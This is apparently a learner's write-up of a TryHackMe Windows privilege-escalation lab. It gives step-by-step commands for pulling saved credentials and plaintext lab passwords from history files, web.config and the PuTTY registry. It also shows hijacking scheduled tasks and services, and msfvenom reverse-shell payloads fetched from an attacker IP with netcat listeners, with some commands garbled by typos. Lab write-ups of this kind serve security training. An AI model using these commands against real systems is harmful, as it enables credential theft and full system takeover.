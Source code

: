 Looking at our powershell history. This is actually easier from cmd.exe rather than powershell so I spawned a cmd prompt from powershell. but it is possible from PS. To quote the page:

"Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. "

PS C:\Users\thm-unpriv> cmd.exe
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm-unpriv>
C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
**cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z**
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
cmd.exe


cmdkey /list

gives us:

Domain:interactive = WPRIVESC1\mike.katz
Type: Domain Password
User: WPRIVESC1\mike.katz

Now we can run a cmd prompt as mike.katz:
runas /savecred /user:mike.katz cmd.exe 

This spawns another cmd.exe this time running as mike.katz and we can navigate to the C:\Users\mike.katz\Desktop and read the flag with
type flag.txt 

(type works a little like cat on Linux boxes)

I did Q2 out of order, but I don't suppose it matters.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config>type web.config | findstr connectionString 

gives us the db_admin password:
connectionString="Server=thm-db.local;Database=thm-sekure;User ID=*db_admin*;Password=*098n0x35skjD3*" name="THM-DB"

Don't put credentials in code!

Q4 - This one needs to be done from the original thm-unpriv account:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

leads us to the PuTTY session for thom.smith and password
CoolPass2021

The next page covers some other 'easy wins'

To exploit scheduled tasks you can list them 
schtasks

adding nc64.exe with your attacker IP and port to the vulntask's schtask.bat file and starting a nc -lvnp PORT on your attacking box will result in a reverse shell:

C:\Windows\system32>whoami                                                                                                                                    │
whoami                                                                                                                                                        │
wprivesc1\taskusr1   

Navigate to Desktop and read the flag:
              │
THM{TASK_COMPLETED} 

Insecure permissions on scheduler (service executable)

Here we find that the user can overwrite a service executable.

use msfvenom on attacking machine (set LHOST and LPORT to attack machine)

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4445 -f exe-service -o rev-svc.exe

start a server
python3 -m http.Server 8000

and listener

nc -lvnp 4445

On remote machine:

wget:/Attack_IP:4445/rev-svc.exe -O rev-svc.exe

then move the old WService.exe and replace with rev-svc.exe (as shown on the page)

you can stop and start the service without waiting for restart. 

(sc is a shortcut so add .exe)

sc.exe stop windowsschduler
sc.exe start windowsscheduler

and you should get a reverse shell on your attack machine where you can whoami, navigate to that user's Desktop and get the flag!

C:\Users\svcusr1\Desktop>type flag.txt
THM{AT_YOUR_SERVICE}

The next vulnerability exploits how windows treats service names with spaces in. disk searcher enterprise will first try to run disk, then disk searcher, then disk searcher enterprise etc. So if we can sneak an executable in called disk.exe it will be by the service instead of disk searcher etc.

make a payload on attacking machine:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4446 -f exe-service -o rev-sv2.exe 
nc -lvnp 4446

whisk it over to the remote machine and save in C:\MyPrograms\ as Disk.exe
grant permissions
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

stop and then start the "disk sorter enterprise" service.

Remember to use sc.exe if using Powershell as 'sc' is mapped as a shortcut to Set-Content commandlet

Get flag from user desktop:
type C:\Users\svcusr2\Desktop\flag.txt 

THM{QUOTES_EVERYWHERE}

# Insecure Sys Config
The payloads are all the same, it's just good practice to type out that msfvenom string a lot so here's the next one:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.14.120 LPORT=4447 -f exe-service -o rev-svc3.exe   
start netcat:
nc -lvnp 4447

wget from remote and put in thm-unpriv folder:
wget http://10.11.14.120:8000/rev-svc3.exe -O C:\Users\thm-unpriv\rev-svc3.exe

icacls C:\Users\thm-unpriv\rev-scv3.exe /grant Everyone:F

then configure the vulnerable (editable) THMService to start it.
sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
(sc.exe as I'm in powershell)

 sc.exe stop THMService (it hasn't been started)
  sc.exe start THMService
  and viola...nt authoritaaa!!!

nt authority\system:

get flag!
THM{INSECURE_SVC_CONFIG}